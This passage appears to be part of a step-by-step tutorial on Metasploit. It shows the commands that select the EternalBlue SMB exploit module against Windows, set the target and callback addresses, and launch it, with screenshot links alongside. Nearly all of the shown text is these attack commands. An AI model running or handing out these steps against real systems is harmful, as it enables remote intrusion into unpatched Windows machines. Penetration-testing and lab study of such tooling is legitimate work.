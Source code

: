 **Step 3: Select and Configure the Exploit**

![alt text](screenshots/metasploit-framework/3.PNG)
```bash
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS <target_ip>
set LHOST <your_ip>
```
![alt text](screenshots/metasploit-framework/4.PNG)


**Step 4: Execute the Exploit**
```bash
exploit
```